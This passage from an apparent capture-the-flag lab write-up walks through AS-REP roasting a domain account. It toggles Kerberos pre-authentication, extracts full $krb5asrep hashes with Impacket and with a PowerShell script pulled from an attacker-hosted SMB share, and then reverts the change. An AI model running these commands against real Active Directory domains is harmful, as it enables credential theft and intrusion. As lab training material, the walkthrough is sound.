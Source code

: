 

Once I flip that, I can get the hash from my Kali machine:



    root@kali# GetNPUsers.py -no-pass -dc-ip 10.10.10.179 MEGACORP/jorden
    Impacket v0.9.21.dev1+20200313.160519.0056b61c - Copyright 2020 SecureAuth Corporation

    [*] Getting TGT for jorden
    $krb5asrep$23$jorden@MEGACORP:a73d19d63b09964cc6e097172e767f9b$31da65f338ec20aae3fe4c1cede839fdf534fdfa878b6dcd8a0c7acd0453c98b6621d03ab22b38423de129f6de81266ef985eb7d655eb963fcbbc1935dc60bac0dad858b627c469b6a56a30b8e84b682576efbb0896d3ffcee4ae5e41bc621769cb329af2fe3f596828f24349c44c341383352d717f43db48bfde182113102e3b5ed51109ed1b09eb5a97b3afbb0f112abe362ba1de5feef2784743d72759236ce7eac39b3372ac29bd868787ffa9752dea356c93b66522b99ab7019a623e5fdc49fb645792ee5f183697105440966ca027a9060a9a7577ea5bdfc8566e6aea599f9ada7af30997309ca



Or I can use a harmj0y tool,
[ASREPRoast](https://github.com/HarmJ0y/ASREPRoast). There's a `.ps1`
file in the repo. Copy it to SMB to Multimaster, import it, and run it:



    *Evil-WinRM* PS C:\programdata> copy \\10.10.14.19\share\ASREPRoast.ps1 .
    *Evil-WinRM* PS C:\programdata> . .\ASREPRoast.ps1
    *Evil-WinRM* PS C:\programdata> Get-ASREPHash -Domain megacorp.local -Username jorden
    $krb5asrep$jorden@MEGACORP.LOCAL:217d8dd459813386d9a7f5f0fa4c3cf1$094bc95da47bee5ef4946e9384e97277961c3069d86a102d4e79b5fed4881db4898d2e1ae38d81fb7327a707a58f771965cad70c3e2f3651e330dd2d85725e343928ae06de4179cee031d580c5c158a55a39bbf4fd3a16f2ec2d1f9377427153e69302d1c6e90cd82f8b4d0ab177c2e370fa051d03480d18dbb52d14c08f79a14cc34257a60e8f2b5af3d8306b26cfc63059f10c5ebf1fde99e9ce6c194132a99769fcacfad6ce01e90764f9df2179ec5f496846f7ae3b5ea307d37aac65cc1e7b91ae4bb1a48bb9adeead8ca5957fb2cb07f1154af572e7ef767cd8e89a834fe5acb0e2218bb4459710ba56e34a5044



The hash format that comes out of the second method requires adding
`$23` towards the beginning to make it look like the first and work in
`hashcat`.

Either way, I'll set jorden back:



    *Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity jorden -XOR @{useraccountcontrol=4194304} -Verbose
    Verbose: [Get-DomainSearcher] search string: LDAP://MULTIMASTER.MEGACORP.LOCAL/DC=MEGACORP,DC=LOCAL
    Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=jorden)(name=jorden)(displayname=jorden))))
    Verbose: [Set-DomainObject] XORing 'useraccountcontrol' with '4194304' for object 'jorden'



And verify it no longer works:



    root@kali# GetNPUsers.py -no-pass -dc-ip 10.10.10.179 MEGACORP/jorden
    Impacket v0.9.21.dev1+20200313.160519.0056b61c - Copyright 2020 SecureAuth Corporation

    [*] Getting TGT for jorden
    [-] User jorden doesn't have UF_DONT_REQUIRE_PREAUTH set
